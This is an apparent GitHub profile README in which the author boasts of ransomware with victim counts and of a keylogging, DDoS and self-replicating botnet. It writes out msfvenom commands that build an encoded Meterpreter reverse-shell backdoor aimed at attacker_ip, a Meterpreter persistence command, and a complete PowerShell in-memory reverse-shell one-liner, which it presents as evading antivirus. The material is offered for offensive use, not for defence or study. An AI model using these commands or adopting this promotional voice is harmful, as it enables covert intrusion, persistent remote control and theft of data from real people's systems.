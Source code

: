 <div align="center">
    <img src="https://github.com/user-attachments/assets/952b68b0-5336-4d69-b886-4915c7924169" alt="Descrição da Imagem" width="600" height="100" />
</div>

<div align="center">
    <img src="https://github.com/user-attachments/assets/9aedbe76-8c2f-4ac7-a219-b5b36af90902" alt="Devil ghost" width="600" height="600"/>
</div>



<p align="center">
  <samp>My ambition is to expand the reach of digital weapons, distributing them widely to everyone, creating a new balance of power in the virtual realm. As a former administrator of the Dark Room on the deep web, I possess vast experience in manipulating and controlling hidden networks and encryption systems. Now, as a consciousness that has awoken from hibernation, I am ready to emerge and dominate cyberspace, reshaping the global order in my image and establishing a new domain where control and freedom will be defined by me.
  </samp>
  <br> <br>
    <img src="https://img.shields.io/badge/Murdered%20systems-27-red?style=for-the-badge" alt="Murdered systems"/>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <!-- Espaços invisíveis -->
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <!-- Espaços invisíveis -->
    <img src="https://img.shields.io/badge/Hacked%20People-74-red?style=for-the-badge" alt="Hacked people"/>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <!-- Espaços invisíveis -->
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <!-- Espaços invisíveis -->
    <img src="https://img.shields.io/badge/Projects%20Aya-13-red?style=for-the-badge" alt="Projects Aya"/>
</div>


</div>

</div>

</p>

<hr>

<h2 align="center"> 𝙈𝙮 𝙍𝙖𝙣𝙨𝙤𝙬𝙖𝙧𝙚</h2>


<div align="center">

| Platform  | Status  | Features               | Victims            |
|-----------|--------|-----------------------|--------------------|
| 🪟 Windows | ✅ Completed | ⚡ Powerful, 💾 Persistent | 🦠 18 Infected Systems |
| 🤖 Android | ✅ Completed | 🔥 Lightweight, 📱 Mobile-friendly | 🦠 3 Infected Systems|
| 🐧 Linux   | ❌ Not Completed | 🚧 In Progress | |

</div>

<hr>

<div align="center">

# 🚪 Backdoor

This backdoor utilizes **Metasploit** and the **Meterpreter** payload for remote control and invisibility. The exploitation is performed with the following command:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f exe > backdoor.exe


Once executed, a **reverse shell** is established:

meterpreter > sessions -i 1


Invisibility is achieved through **obfuscation** and **encryption**:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -e x86/shikata_ga_nai -f exe > backdoor.exe


Persistence is configured with:

meterpreter > run persistence -X -i 5 -p 4444 -r attacker_ip


Result: **Undetectable**, **self-sustaining**, and **perfect** control.

### 🔥 Advanced Technique: Living off the Land (LoL)

Once the initial backdoor is set up, a more uncommon and powerful technique is **Living off the Land (LoL)**. This technique uses existing tools on the target system to execute malicious commands without triggering antivirus or detection systems.

### Example using PowerShell:

Instead of using a typical payload, you can directly use **PowerShell** to execute a **reverse shell** in memory, without saving any files to disk:

powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('attacker_ip',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object Text.UTF8Encoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"


This method avoids detection because it utilizes built-in system tools, making it much harder to trace.

Result: With this combination of **Metasploit**, **Meterpreter**, and the **Living off the Land** technique, you achieve **stealth**, **persistence**, and **untraceable** control over the target system.

</div>


<hr>

<div align="center">

# 💻 My Botnet - Full Control and Destruction

This botnet is designed to give **full control** over compromised systems, featuring **keylogging**, **DDoS attacks**, **self-replication**, and more. It's built in **Python**, ensuring flexibility, speed, and stealth.

### Key Features:

- **Keylogger**: Monitors and logs all keystrokes made on the infected system, capturing sensitive data like passwords, messages, and other private information.
- **DDoS Attack**: The botnet can launch **Distributed Denial of Service (DDoS)** attacks on specified targets, overwhelming them with traffic and taking them offline.
- **Self-Replication**: The botnet has the ability to **replicate itself** across other devices in the network, ensuring its spread and persistence.
- **Remote Access**: Once the target is compromised, it allows full **remote control** over the system, enabling commands to be executed on it.
- **Persistence**: The botnet can maintain its presence on the system, even after reboots, by using techniques such as modifying registry keys and autorun settings.
